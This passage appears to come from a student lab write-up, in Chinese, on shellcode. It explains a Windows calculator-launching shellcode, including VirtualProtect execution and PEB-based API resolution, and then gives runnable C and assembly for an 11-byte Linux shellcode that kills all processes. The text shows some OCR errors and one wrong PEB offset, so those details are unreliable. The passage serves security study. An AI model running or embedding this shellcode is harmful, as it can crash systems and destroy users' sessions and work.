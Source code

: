     {
	    int(*func)();
	    DWORD dwOldProtect;
	    func = (int(*)()) code;
	    VirtualProtect(func, sizeof(code), PAGE_EXECUTE_READWRITE, &dwOldProtect);
	    (int)(*func)();
    }
    ```  
    再次执行，成功弹出计算器。
    ![](./img/q1*result.png)  
    在调试执行时，可以在`(int)(*func)()`单步执行再转到反汇编时，发现反汇编部分的内容与代码中code存放的汇编部分内容一致。即，在实验中其实完成的是将一部分代码嵌入一个程序的过程。利用溢出数据部分完成了对计算器的调用。  
    * 如果我们是在C语言中编写调用WinExec函数，那个call之后的WinExec函数的地址，是编译器帮我们在可执行程序的导入表中导入了。在进程初始化的过程中，系统会帮我们计算好WinExec函数的地址，然后把函数地址放在导入表中指定的位置。
    * 在shellcode中，却没有这个过程。 被攻击的目标对象也没有动态链接的过程。那么，code这段代码是无法独自完成call WinExec的。shellcode，其实完成了一个进程初始化的过程中，操作系统在干的事情——API函数的动态链接。也就是找到需要调用的API函数的地址。
    * 利用GetProcAddress函数可以获得API函数的地址。但GetProcAddress本身也是一个API。GetProcAddress函数的地址也是未知。
    * 在API地址都是未知的情况下，早期的黑客们，想了很多办法，能不能比较原始的办法，能够获得API地址。其实操作系统也有一个加载的过程。黑客们逆向分析了Windows系统的内部代码，分析了Windows系统内部管理进程初始化相关的数据结构。发现有一个链表，管理了所有的已经加载的dll文件。
    * 这个链表，就是我们这个代码里InitOrderModuleList.这个InitOrderModuleList 在一个称为 LDR 的数据结构里。这个LDR的数据结构，又在 PEB(进程环境块)这个数据结构里。而PEB数据结构，在每个进程中，是一个固定的位置，是一个绝对的常量地址。这个地址就是fs:ebx+0x30。所以地址就可以不依赖于任何API或者其他依赖，直接用汇编代码就能访问到。
    * 从这里我们能一层层找到dll的基地址。然后再从dll的基地址，通过PE文件的数据结构，文件头，找到dll的导出表。然后再在导出表中的数据结构中，通过函数名称的比较，得到已经在内存中的函数的地址。所以代码中的循环，findFunctionAddr 的递归函数，和searchLoop就是在遍历dll的导出表。
    * 代码中大量使用到了硬编码的偏移地址，比如就是因为上面这些说到的系统的数据结构，都是固定的结构，在每个系统中都是一样的，所以可以固定。通过系统中若干数据结构这种原始的访问方式，可以找到API函数。
#### （2）[Linux/x64 * Kill All Processes Shellcode (11 bytes)](https://www.exploit*db.com/shellcodes/46492)  
* 同（1）中，将以下代码存为.c文件。  
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x6a\x3e\x58\x6a\xff\x5f\x6a\x09\x5e\x0f\x05";


int main()
{

printf("Shellcode Length:  %d\n", (int)strlen(code));

int (*ret)() = (int(*)())code;

ret();

return 0;
}
```
* 这里使用ssh来验证，首先使用cmder远程登陆ubuntu虚拟机。  
编译链接完成并运行后，发现：  
![](./img/q1*result2.png)  
ssh连接被断开，且虚拟机端退出了已登录状态。  
* 该段代码的部分汇编代码：  
```c
        int kill(pid_t pid, int sig); 

#### 汇编语言
	push 	0x3e		; sys kill
	pop  	rax
	push 	*1 			; pid  # 将信号广播传送给系统内所有的进程
	pop		rdi
	push	0x9			; sig kill
	pop 	rsi
	syscall
```